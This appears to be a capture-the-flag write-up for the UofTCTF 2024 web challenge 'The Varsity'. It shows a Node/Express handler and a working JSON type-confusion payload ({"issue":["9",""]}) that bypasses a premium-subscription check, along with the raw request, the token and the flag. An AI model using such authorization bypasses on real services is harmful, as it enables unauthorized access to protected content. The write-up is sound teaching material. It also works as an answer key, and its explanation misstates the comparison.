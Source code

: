 ```yaml
---
title: The Varsity
date: 2024-01-16
tags: 
- web
- author-hartmannsyg
categories: UofTCTF 2024
---
```


written by {% person hartmannsyg %}

We are supposed to access the 10th article (index 9). However that require's a premium subscription, which we cannot get (as far as I know it is impregnable).

{% ccb gutter1:1-34 lang:js highlight:14,20,26 %}
app.post("/article", (req, res) => {
  const token = req.cookies.token;

  if (token) {
    try {
      const decoded = jwt.verify(token, JWT_SECRET);

      let issue = req.body.issue;

      if (req.body.issue < 0) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      if (decoded.subscription !== "premium" && issue >= 9) {
        return res
          .status(403)
          .json({ message: "Please subscribe to access this issue" });
      }

      issue = parseInt(issue);

      if (Number.isNaN(issue) || issue > articles.length - 1) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      return res.json(articles[issue]);
    } catch (error) {
      res.clearCookie("token");
      return res.status(403).json({ message: "Not Authenticated" });
    }
  } else {
    return res.status(403).json({ message: "Not Authenticated" });
  }
});
{% endccb %}

Effectively, we need an `issue` what is less than are equal to 9 (`<=9`), but becomes 9 after `parseInt()`:
```js
let issue = ["9", ""]
console.log(issue <= 9) // false
console.log(parseInt(issue)) // 9 
```

So we send our array: `["9", ""]`:

```http
POST /article HTTP/1.1
Host: uoftctf-the-varsity.chals.io
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEiLCJzdWJzY3JpcHRpb24iOiJndWVzdCIsImlhdCI6MTcwNTM3NTMyOSwiZXhwIjoxNzA1NDYxNzI5fQ.P1qaLqOO9t1rOVg__dXiCC67oycdtz1GaWJkkv54zOo
Content-Length: 20
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://uoftctf-the-varsity.chals.io
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://uoftctf-the-varsity.chals.io/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

{"issue":["9",""]}
```
response:
```json
{
    "title":"UofT Hosts its 2nd Inaugural Capture the Flag Event",
    "content":"Your flag is: uoftctf{w31rd_b3h4v10r_0f_parseInt()!}"
}
```